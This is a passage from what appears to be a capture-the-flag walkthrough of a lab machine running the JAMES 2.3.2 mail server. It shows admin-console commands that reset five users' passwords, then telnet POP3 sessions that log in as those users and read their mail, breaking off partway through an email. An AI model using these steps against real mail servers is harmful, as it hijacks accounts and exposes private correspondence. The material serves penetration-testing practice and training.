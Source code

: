 We have 5 accounts. Since this is an admin account, we can set a user’s password and then access their account. If this was a real penetration test, you probably don’t want to do that. You’ll raise a lot of red flags when a bunch of users no longer can access their accounts. However, since this is a practice environment, I’m going to go all out. Let’s start by changing the mailadmin user’s account.

```
setpassword mailadmin password
Password for mailadmin reset
```

Now that we reset the password for the mailadmin account, let’s access his email using telnet.

```
root@kali:~# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
USER mailadmin
+OK
PASS password
+OK Welcome mailadmin
LIST
+OK 0 0
.
```

He does not have any mail. Next, I’m going to reset the passwords of all the other accounts.

```
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
```

James, Thomas and John didn’t have any emails too. Mindy on the other hand had two emails stored in her account.

```
root@kali:~# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
USER mindy
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
```